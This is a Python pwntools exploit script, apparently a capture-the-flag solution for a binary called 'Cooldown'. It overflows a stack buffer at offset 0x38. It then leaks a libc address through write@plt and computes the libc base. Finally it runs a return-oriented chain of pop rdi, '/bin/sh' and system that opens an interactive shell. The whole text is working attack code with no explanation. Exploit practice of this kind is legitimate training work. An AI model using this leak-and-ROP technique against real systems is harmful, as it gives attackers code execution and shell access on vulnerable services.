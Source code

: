 ```python
#!/usr/bin/env python3
from pwn import *

def start(argv=[], *a, **kw):
  if args.REMOTE:
    return remote('localhost', 10005, *a, **kw)
  else:
    return process([exe] + argv, *a, **kw)
   
gs = '''
init-pwndbg
b *0x40057d
continue
'''

exe = './Cooldown_patched'
elf = context.binary = ELF(exe, checksec=False)
libc = ELF('./libc.so.6', checksec=False)
context.log_level = 'debug'

io = start()

payload = flat({
  0x38:[
    # to leak libc with write(0, input_buf, 0x60)
    elf.plt.write,   # vuln ret
  ]
})
io.sendafter(b'> ', payload)
io.recvuntil(b'naaa')
# use vmmap to calc offset val
libc.address = u64(io.recv(16)[-8:]) - 0x3F20CA
log.success(f'libc base = 0x{libc.address:0x}')

pop_rdi = libc.search(asm('pop rdi; ret')).__next__()
payload = flat({
  0x38:[
    pop_rdi,
    libc.search(b'/bin/sh').__next__(),
    libc.sym.system, 
  ]
})
io.sendafter(b'> ',payload)
io.interactive()
```